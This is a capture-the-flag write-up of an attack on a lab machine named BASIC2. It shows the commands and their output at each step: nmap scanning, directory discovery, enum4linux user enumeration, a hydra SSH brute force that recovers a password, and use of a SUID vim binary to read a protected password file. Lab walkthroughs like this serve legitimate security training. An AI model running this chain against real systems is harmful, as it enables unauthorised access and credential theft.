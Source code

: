 # NMAP

```bash:Terminal
┌──(vipin㉿vipin)-[~]
└─$ sudo nmap -sS -sV 10.10.178.37 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 23:39 EDT
Nmap scan report for 10.10.178.37
Host is up (0.16s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.11 seconds
```

# Accessing website

website's homepage seems normal inspect says to check the dev note section

# dirsearch

```bash
┌──(vipin㉿vipin)-[~]
└─$ dirsearch -u $IP --exclude-status 403,404
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/vipin/reports/_10.10.178.37/_24-04-02_23-46-13.txt

Target: http://10.10.178.37/

[23:46:13] Starting: 
[23:46:39] 200 -  475B  - /development/                                     
                                                                             
Task Completed
```

# looking inside of development

dev.txt say smb is working and j.txt says that /etc/shadows password is weak 

# getting username and password

username i used enum2linux

```bash
┌──(vipin㉿vipin)-[~]
└─$ enum4linux -a $IP

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''                            
                                                                                                       
S-1-22-1-1000 Unix User\kay (Local User)                                                               
S-1-22-1-1001 Unix User\jan (Local User)

^C
enum4linux complete on Wed Apr  3 00:51:22 2024
```

now that we have the username let use hydra to bruteforce it

```bash
┌──(vipin㉿vipin)-[~]
└─$ hydra -f -l jan -P /usr/share/wordlists/rockyou.txt $IP ssh           

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-03 01:27:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.178.37:22/
[STATUS] 166.00 tries/min, 166 tries in 00:01h, 14344234 to do in 1440:12h, 15 active
[STATUS] 105.33 tries/min, 316 tries in 00:03h, 14344084 to do in 2269:39h, 15 active
[STATUS] 105.71 tries/min, 740 tries in 00:07h, 14343660 to do in 2261:24h, 15 active
[22][ssh] host: 10.10.178.37   login: jan   password: armando
[STATUS] attack finished for 10.10.178.37 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-03 01:34:46
```

## priv esc

now that we r in the server we need to escalate our privs, i started by looking for suid binaries
```bash
jan@basic2:/$ find / -uid 0 -perm -4000 -type f 2>/dev/null

/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/vim.basic
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/passwd
/bin/su
/bin/ntfs-3g
/bin/ping6
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
```

vim.basic may be useful to read files we dont have permission to

going to /home/kay we see a file called password.bak which needs sudo perms

running vim on the file allows us to see inside to answer the last question